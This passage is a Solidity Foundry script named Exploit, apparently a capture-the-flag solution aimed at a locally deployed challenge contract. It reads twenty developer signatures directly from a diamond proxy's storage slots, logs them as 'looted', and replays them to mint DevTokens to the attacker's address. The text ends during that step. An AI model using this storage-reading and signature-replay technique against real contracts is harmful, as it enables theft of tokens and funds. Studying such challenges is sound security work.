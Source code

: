 ```solidity
    function getSelectors() external pure returns (bytes4[] memory selectors);
    function refreshLeader(address newLeader) external;
}

contract Exploit is Script {
    bytes32 constant POOL_STORAGE_POSITION = keccak256("diamond.pool.storage");
    bytes32 private constant PERMIT_TYPEHASH = keccak256(
        "Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)"
    );

    DevToken devToken;
    DevLead devLead;
    Diamond diamond; 
    Setup setupContract;
    address attacker;

    function run() external {
        // 0x9A9f2CCfdE556A7E9Ff0848998Aa4a0CFD8863AE = address by default when deploying locally with anvil
        setupContract = Setup(0x9A9f2CCfdE556A7E9Ff0848998Aa4a0CFD8863AE);
        diamond = Diamond(payable(setupContract.diamond()));
        devToken = DevToken(setupContract.devToken());
        devLead = DevLead(setupContract.devLead());
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        attacker = vm.addr(privateKey);

        console2.log("================== Step 1 ==================");
        // bytes4(keccak256("flashLoan(uint256,address,address,bytes)")) = 0xab19e0c000000000000000000000000000000000000000000000000000000000
        PoolFacet poolFacet = PoolFacet(payable(IDiamondLoupe(address(diamond)).facetAddress(bytes4(0xab19e0c0))));
        // The DevKeyManager struct starts at POOL_STORAGE_POSITION + 1
        // devkeys is a fixed-length bytes[20] array, so each element takes 1 slot (warning: they're signatures and thus 65bytes long => can't fit in one slot => one more keccak() to put them in the storage)
        // more info about storage in: https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html
        bytes[] memory devkeys = new bytes[](20);
        for (uint256 i = 0; i < 20; i++) {
            uint256 baseSlot = uint256(POOL_STORAGE_POSITION) + 1 + i;
            bytes32 dataSlot = keccak256(abi.encode(baseSlot));
            console2.log("devkeys[%s]:", i);
            bytes memory keyBytes;
            // j < 3 because we'll read 3 slots since 1 slot is 32bytes and we have 65bytes
            for (uint256 j = 0; j < 3; j++) {
                bytes32 word = vm.load(address(poolFacet), bytes32(uint256(dataSlot) + j));
                keyBytes = bytes.concat(keyBytes, word);
            }
            // Trunc for 65bytes
            bytes memory key65 = new bytes(65);
            for (uint256 k = 0; k < 65; k++) {
                key65[k] = keyBytes[k];
            }
            console2.logBytes(key65);
            devkeys[i] = key65;
        }
        console2.log("");
        console2.log("DevKeys looted from storage!");
        console2.log("");
        console2.log("================== Step 2 ==================");
        vm.startBroadcast(privateKey);
        devToken.mint(attacker, 20, 0, devkeys);
        console2.log("DevToken attacker balance after minting:");
```
